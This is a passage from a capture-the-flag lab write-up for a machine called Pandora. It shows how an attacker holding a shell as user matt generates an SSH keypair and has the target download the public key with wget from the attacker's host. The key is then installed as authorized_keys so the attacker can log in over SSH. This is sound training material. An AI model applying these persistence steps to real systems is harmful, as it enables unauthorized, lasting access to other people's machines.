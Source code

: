 ### Upgrading shell to ssh shell
Before we start to exploit the path injection, we realize that the shell that we are currently in is not stable shell. Hence, we would need to upgrade our shell to a more stable shell. However, since we do not have the credentials of the matt user, we would need to generate our own ssh key to ssh into the matt user.

```
matt@pandora:/tmp$ sudo /usr/bin/pandora_backup
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

First, we will use ```ssh-keygen``` to generate a SSH keypair in our local machine 

```
┌──(kali㉿kali)-[~/Desktop/pandora]
└─$ ssh-keygen                                                                                                   5 ⚙
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/Desktop/pandora/id_rsa
/home/kali/Desktop/pandora/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/Desktop/pandora/id_rsa
Your public key has been saved in /home/kali/Desktop/pandora/id_rsa.pub
The key fingerprint is:
SHA256:HYaUxqwNCmJCbGYquUY4OivigEqnMB3HKsgUZWwF1BI kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|o.oE=. o..       |
|o*++ ...=.       |
|O+.... =. o      |
|*.... . .o .     |
|++. o   S .      |
|Oo +             |
|O=o.             |
|Ooo              |
|=o               |
+----[SHA256]-----+
```

Next, we will have to transfer the public keys to the target server and rename the public keys to authorized_keys. Afterwards, we will have to modify the permissions of authorized_keys

```
matt@pandora:/home/matt/.ssh$ wget http://10.10.16.8:3000/id_rsa.pub 
wget http://10.10.16.8:3000/id_rsa.pub
matt@pandora:/home/matt/.ssh$ mv id_rsa.pub authorized_keys
mv id_rsa.pub authorized_keys
matt@pandora:/home/matt/.ssh$ chmod 700 authorized_keys
chmod 700 authorized_keys
matt@pandora:/home/matt/.ssh$ 
```
